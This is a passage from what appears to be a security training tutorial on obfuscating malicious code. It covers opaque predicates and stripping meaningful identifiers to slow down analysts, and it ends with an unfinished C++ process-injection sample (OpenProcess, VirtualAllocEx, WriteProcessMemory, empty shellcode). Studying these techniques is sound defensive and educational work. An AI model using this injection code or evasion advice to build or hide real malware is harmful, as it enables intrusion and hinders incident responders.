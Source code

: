In the above code snippet, the Collatz conjecture will only perform its mathematical operations if `x > 1`, resulting in `1` or `TRUE`. From the definition of the Collatz problem, it will always return one  for a positive integer input, so the statement will always return true  if `x` is a positive integer greater than one.

To prove the efficacy of this opaque predicate, we can observe its **CFG** (**C**ontrol **F**low **G**raph) to the right. If this is what an interpreted function looks like, just  imagine what a compiled function may look like to an analyst.

# Protecting and Stripping Identifiable Information

Identifiable information can be one of the most critical components  an analyst can use to dissect and attempt to understand a malicious  program. By limiting the amount of identifiable information (variables,  function names, etc.), an analyst has, the better chance an attacker has they won't be able to reconstruct its original function.

At a  high level, we should consider three different types of identifiable  data: code structure, object names, and file/compilation properties. In  this task, we will break down the core concepts of each and a case study of a practical approach to each.

------

### Object Names

Object names offer some of the most significant insight into a program's  functionality and can reveal the exact purpose of a function. An analyst can still deconstruct the purpose of a function from its behavior, but  this is much harder if there is no context to the function.

The importance of literal object names may change depending on if the language is **compiled** or **interpreted**. If an interpreted language such as **Python** or **PowerShell** is used, then all objects matter and must be modified. If a compiled language such as **C** or **C#** is used, only objects appearing in the strings are generally  significant. An object may appear in the strings by any function that  produces an **IO operation**.

The aforementioned white paper: [Layered Obfuscation Taxonomy](https://cybersecurity.springeropen.com/articles/10.1186/s42400-020-00049-3), summarizes these practices well under the **code-element** layer’s **meaningless identifiers** method.

Below we will observe two basic examples of replacing meaningful identifiers for both an interpreted and compiled language.

------

As an example of a compiled language, we can observe a process injector  written in C++ that reports its status to the command line.

```c
#include "windows.h"
#include <iostream>
#include <string>
using namespace std;

int main(int argc, char* argv[])
{
	unsigned char shellcode[] = "";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	string leaked = "This was leaked in the strings";

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	cout << "Handle obtained for" << processHandle;
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
```